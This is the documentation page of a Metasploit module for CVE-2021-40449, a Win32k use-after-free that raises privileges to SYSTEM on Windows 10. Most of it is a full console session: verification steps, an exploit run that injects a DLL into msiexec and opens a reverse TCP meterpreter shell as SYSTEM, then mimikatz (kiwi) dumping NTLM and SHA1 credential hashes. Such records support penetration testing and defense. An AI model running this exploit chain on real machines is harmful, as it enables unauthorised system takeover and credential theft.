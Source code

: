 ## Vulnerable Application

A use after free vulnerability exists in the `NtGdiResetDC()` function of Win32k which can be leveraged by
an attacker to escalate privileges to those of `NT AUTHORITY\SYSTEM`. The flaw exists due to the fact
that this function calls `hdcOpenDCW()`, which performs a user mode callback. During this callback, attackers
can call the `NtGdiResetDC()` function again with the same handle as before, which will result in the PDC object
that is referenced by this handle being freed. The attacker can then replace the memory referenced by the handle
with their own object, before passing execution back to the original `NtGdiResetDC()` call, which will now use the
attacker's object without appropriate validation. This can then allow the attacker to manipulate the state of the
kernel and, together with additional exploitation techniques, gain code execution as NT AUTHORITY\SYSTEM.

This module has been tested to work on Windows 10 x64 RS1 (build 14393) and RS5 (build 17763), however
previous versions of Windows 10 will likely also work.

Note the exploit may occasionally not work the first time so you may have to run it again to get the results.

## Options

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 RS5 x64
2. `use exploit/windows/local/cve_2021_40449`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 1809 Build 17763.2114 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.28.156.210:4444
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 1 opened (172.28.145.185:36167 -> 172.28.156.210:4444 ) at 2021-11-05 15:45:08 -0500

meterpreter > getuid
Server username: DESKTOP-3GHNQ93\normal
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The system cannot find the file specified. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > sysinfo
Computer        : DESKTOP-3GHNQ93
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2021_40449
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2021_40449) > show options

Module options (exploit/windows/local/cve_2021_40449):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.28.145.185   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64 RS1 (build 14393) and RS5 (build 17763)


msf6 exploit(windows/local/cve_2021_40449) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2021_40449) > set LPORT 9988
LPORT => 9988
msf6 exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
^C[-] Exploit failed [user-interrupt]: Interrupt
[-] exploit: Interrupted
msf6 exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target's build number: 10.0.17763.2114
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching msiexec to host the DLL...
[+] Process 2520 launched.
[*] Reflectively injecting the DLL into 2520...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 2 opened (172.28.145.185:9988 -> 172.28.156.210:49900 ) at 2021-11-05 15:46:21 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...c
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-3GHNQ93  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-3GHNQ93  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-3GHNQ93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-3ghnq93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)


meterpreter >
```
